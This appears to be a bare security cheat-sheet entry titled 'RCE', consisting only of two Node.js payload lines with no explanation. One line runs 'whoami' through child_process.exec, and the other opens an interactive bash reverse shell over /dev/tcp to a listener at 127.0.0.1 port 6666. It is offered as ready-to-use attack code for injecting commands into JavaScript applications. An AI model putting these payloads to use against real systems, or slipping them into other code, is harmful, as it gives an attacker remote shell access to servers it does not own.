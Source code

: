 # RCE

```javascript
require("child_process").exec('whoami');
require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//
```
